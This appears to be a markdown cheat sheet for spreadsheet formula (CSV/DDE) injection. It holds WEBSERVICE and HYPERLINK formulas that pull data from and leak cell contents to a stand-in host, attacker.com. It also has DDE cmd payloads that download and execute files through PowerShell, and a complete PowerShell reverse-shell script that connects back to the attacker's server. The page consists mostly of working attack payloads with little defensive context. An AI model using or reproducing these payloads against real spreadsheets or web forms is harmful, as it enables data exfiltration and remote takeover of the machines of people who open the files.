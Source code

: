Useful Links
---------------------------------------------
https://www.notsosecure.com/data-exfiltration-formula-injection/

Use Webservice Formula to Inject fake data into Speadsheet
----------------------------------------------------------
In cell "A1" enter the following - Could be "First Name" in web form
=WEBSERVICE("http://www.attacker.com")

Run attacking server
php -S www.attacker.com:80

On attacking server create "index.html" with content you want to change the "fake data" too.
```
############ Begin index.html ##################################
Fake Data
############ End index.html ####################################
```
To fill in multiple cells use multiple html file
```
=WEBSERVICE("http://www.attacker.com/al.html")
############ Begin a1.html ##################################
Fake
############ End a1.html ####################################
```
```
=WEBSERVICE("http://www.attacker.com/a2.html")
############ Begin a2.html ##################################
Data
############ End a2.html ####################################
```

Use Hyperlink formula to send data to attacking server
------------------------------------------------------
```
# This will send the data from cells "C2" and "D2" to the attackers server using the GET method. 
=HYPERLINK("http://www.attacker.com?leak="&C2&D2,"Please click for further information")
```

Execute content when the spreadsheet loads
------------------------------------------------
```
# Works with any payload, will open associated extension or run exe, bat, etc....
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/index.jpeg;Start-Process index.jpeg'!A0
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/ps.bat;Start-Process ps.bat'!A0
```


Another example to use when the form size is limited
------------------------------------------------
```
# Will download powershell from attackers server and execute it
=cmd|' /C powershell IEX(wget www.attacker.com/p.ps1)'!A0

# Contents of "p.ps1" - May not need the extension
function cleanup {
if ($client.Connected -eq $true) {$client.Close()}
if ($process.ExitCode -ne $null) {$process.Close()}
exit}
$address = 'www.attacker.com'
$port = '80'
$client = New-Object system.net.sockets.tcpclient
$client.connect($address,$port)
$stream = $client.GetStream()
$networkbuffer = New-Object System.Byte[] $client.ReceiveBufferSize
$process = New-Object System.Diagnostics.Process
$process.StartInfo.FileName = 'C:\\windows\\system32\\cmd.exe'
$process.StartInfo.RedirectStandardInput = 1
$process.StartInfo.RedirectStandardOutput = 1
$process.StartInfo.UseShellExecute = 0
$process.Start()
$inputstream = $process.StandardInput
$outputstream = $process.StandardOutput
Start-Sleep 1
$encoding = new-object System.Text.AsciiEncoding
while($outputstream.Peek() -ne -1){$out += $encoding.GetString($outputstream.Read())}
$stream.Write($encoding.GetBytes($out),0,$out.Length)
$out = $null; $done = $false; $testing = 0;
while (-not $done) {
if ($client.Connected -ne $true) {cleanup}
$pos = 0; $i = 1
while (($i -gt 0) -and ($pos -lt $networkbuffer.Length)) {
$read = $stream.Read($networkbuffer,$pos,$networkbuffer.Length - $pos)
$pos+=$read; if ($pos -and ($networkbuffer[0..$($pos-1)] -contains 10)) {break}}
if ($pos -gt 0) {
$string = $encoding.GetString($networkbuffer,0,$pos)
$inputstream.write($string)
start-sleep 1
if ($process.ExitCode -ne $null) {cleanup}
else {
$out = $encoding.GetString($outputstream.Read())
while($outputstream.Peek() -ne -1){
$out += $encoding.GetString($outputstream.Read()); if ($out -eq $string) {$out = ''}}
$stream.Write($encoding.GetBytes($out),0,$out.length)
$out = $null
$string = $null}} else {cleanup}}
```

Download payload using WEBSERVICE formula
------------------------------------------------
```
# Use for Injection
=WEBSERVICE("http://www.attacker.com/payload.txt"
# Payload looks like this
=MSEXCEL|'\..\..\..\Windows\System32\cmd.exe /c calc.exe'!''
```
